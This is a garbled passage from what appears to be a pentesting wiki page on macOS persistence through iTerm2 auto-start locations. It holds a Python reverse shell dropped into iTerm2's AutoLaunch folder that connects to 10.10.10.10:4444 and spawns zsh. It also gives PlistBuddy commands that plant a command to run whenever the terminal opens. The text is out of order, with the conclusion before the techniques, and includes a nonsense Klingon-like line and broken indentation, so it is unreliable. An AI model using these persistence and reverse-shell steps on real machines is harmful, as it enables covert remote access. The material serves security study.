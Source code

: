 Launchctl is a command-line utility that allows for the management of launchd jobs, which are responsible for starting and stopping processes on macOS. Launchctl can be used to load, unload, and manage these jobs.

## Conclusion

Understanding the various auto start locations in macOS is crucial for both defenders and attackers. By familiarizing yourself with these locations, you can better secure your system or exploit them for persistence during a penetration test.
```bash
cat > "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.py" << EOF
#!/usr/bin/env python3
import iterm2,socket,subprocess,os

async def main(connection):
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.10.10',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['zsh','-i']);
async with iterm2.CustomControlSequenceMonitor(
connection, "shared-secret", r'^create-window$') as mon:
while True:
match = await mon.async_get()
await iterm2.Window.async_create(connection)

iterm2.run_forever(main)
EOF
```
**`~/Library/Application Support/iTerm2/Scripts/AutoLaunch.scpt`** script will be executed as well:
```bash
do shell script "touch /tmp/iterm2-autolaunchscpt"
```
**`~/Library/Preferences/com.googlecode.iterm2.plist`** file contains the iTerm2 preferences for executing a command upon opening the iTerm2 terminal.

To configure this setting, follow these steps:

1. Open the iTerm2 settings.
2. Navigate to the "Profiles" tab.
3. Select the profile you want to modify.
4. Go to the "General" tab.
5. In the "Command" section, enter the desired command.

The command you specify will be reflected in the preferences file.
```bash
plutil -p com.googlecode.iterm2.plist
{
[...]
"New Bookmarks" => [
0 => {
[...]
"Initial Text" => "touch /tmp/iterm-start-command"
```
bIQtIn 'ej vItlhutlh 'e' vItlhutlh.:

{% code overflow="wrap" %}
```bash
# Add
/usr/libexec/PlistBuddy -c "Set :\"New Bookmarks\":0:\"Initial Text\" 'touch /tmp/iterm-start-command'" $HOME/Library/Preferences/com.googlecode.iterm2.plist

# Call iTerm
open /Applications/iTerm.app/Contents/MacOS/iTerm2

# Remove
/usr/libexec/PlistBuddy -c "Set :\"New Bookmarks\":0:\"Initial Text\" ''" $HOME/Library/Preferences/com.googlecode.iterm2.plist
```
{% endcode %}